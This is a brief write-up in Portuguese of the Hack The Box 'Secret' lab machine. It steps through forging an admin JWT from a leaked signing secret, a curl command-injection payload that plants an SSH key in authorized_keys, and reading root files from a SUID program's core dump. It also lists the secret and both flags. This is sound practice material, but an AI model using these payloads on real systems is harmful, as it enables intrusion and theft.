 #  Secret

1. Criar usuario via API /api/user/register
2. Obter o JWT /api/user/login
3. Baixar *source code* e encontrar falhas de *command injection* no /api/logs
4. Encontrar TOKEN_SECRET que cria o JWT
5. Criar JWT com usuario *theadmin*
6. Adicionar chave ssh em authorized_keys do user
7. Encontrar falha no código do arquivo com *SUID* de *core dump* e explorar
9. Obter chave ssh

* [JWT Cracker](https://github.com/lmammino/jwt-cracker)
* [JWT.io](https://jwt.io)
* [drt.sh htb-secret](https://drt.sh/posts/htb-secret/)

````c
//code that allows core dumps
prctl(PR_SET_DUMPABLE, 1)
````

````shell
# Add ssh-key in authorized_keys
curl -i \
--get \
-H 'Host: 10.10.11.120:3000' \
-H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5MDAwNTY2YTdlNTA0NjhhNGFlNGIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQxNzM2NTYzfQ._9whmuv0q2nCEld42Mf3NlvGBXBYpuKPnr9_5MY2TXY' \
--data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys" 'http://10.10.11.120:3000/api/logs'
````

````shell
#Explore SUID elf with core dump
./count
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count
ps
    PID TTY          TIME CMD
   2213 pts/4    00:00:00 bash
   2373 pts/4    00:00:00 count
   2374 pts/4    00:00:00 ps

kill -SIGSEGV 2373 #or kill -BUS pid
fg
./count
Bus error (core dumped)

$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/crash-report
$ strings /tmp/crash-report/CoreDump
````

Secrets:
* TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
* JWT_HEADER = { "alg": "HS256","typ": "JWT"} JWT_PAYLOAD: { "_id": "61d9000566a7e50468a4ae4b","name": "theadmin","email": "root@dasith.works","iat": 1641736563 }
* FLAG_USER = fbbbc22182e757fe6d1a2668fba16fec
* FLAG_ROOT = 2d8736c5551138592e8cd56a3b4e219e
